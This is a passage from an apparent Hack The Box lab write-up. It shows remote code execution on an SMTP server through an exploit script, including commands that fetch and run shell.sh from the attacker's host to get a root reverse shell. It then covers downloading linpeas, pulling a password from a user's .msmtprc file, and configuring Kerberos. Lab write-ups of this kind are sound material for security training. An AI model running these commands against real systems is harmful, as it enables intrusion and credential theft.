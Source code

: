 Uploading _shell.sh_ to the box:
```
proxychains python3 47984.py 10.241.251.113 25 'wget 10.10.14.10/shell.sh -O shell.sh'
```

Executing _shell.sh_:
```
proxychains python3 47984.py 10.241.251.113 25 'bash shell.sh'
```

The exploit executes _shell.sh_ and the listener on my IP and port 9001 starts a reverse shell as _root_ on _smtp.realcorp.htb_.

## Lateral Movement

This is not the host box as the hostname is _smtp.realcorp.htb_ and the IP 10.241.251.113, so we need to find other machines to move to.
To get an attack surface, it is recommended to run any **Linux Enumeration Script**:
```
wget 10.10.14.10/linpeas.sh

./linpeas.sh
```

It finds out that this is a [Podman](https://podman.io/) container.

In the users home directory is a hidden file called _/home/j.nakazawa/.msmtprc_ with a password:
```
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
```

The initial port scan had a **Kerberos** service open on port 88 and these credentials could be used to enumerate that.
With the command [kinit](https://linux.die.net/man/1/kinit) it is possible to obtain and cache Kerberos tickets.

Configuring _/etc/krb5.conf_ on our local client:
```
[libdefaults]
        default_realm = REALCORP.HTB

[realms]
            REALCORP.HTB = {
                    kdc = srv01.realcorp.htb:88
            }

[domain_realm]
            .realcorp.htb = REALCORP.HTB
            realcorp.htb = REALCORP.HTB    
```

Synchronizing time with the box:
```
sntp 10.10.10.224
```
